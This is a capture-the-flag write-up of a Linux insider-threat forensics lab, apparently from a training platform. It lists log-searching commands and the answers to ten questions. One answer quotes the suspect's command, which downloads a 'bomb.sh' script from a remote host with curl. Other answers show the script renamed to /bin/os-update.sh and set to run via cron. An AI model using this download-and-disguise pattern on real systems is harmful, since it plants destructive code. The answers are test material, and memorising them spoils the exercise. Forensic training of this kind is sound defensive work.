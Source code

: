 # 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


>*Explanation:* checked `/var/log/auth.log` for commands involving package installation. Since `apt` is usually used with `sudo`, we searched for the term `install

> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```
![user added](task2_q1_answer.png)


> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```
![sudo](task2_q2_answer.png)


> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```
![scriptfile](task2_q3_answer.png)


> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```
![command](task3_q1_answer.png)

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```
![rename](task3_q2_answer.png)


> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```
![modified](task3_q3_answer.png)

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

![newfile](task3_q4_answer.png)

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
cat /etc/crontab
```
![time](task4_q1_answer.png)

> **Answer:** `08:00 AM`

---



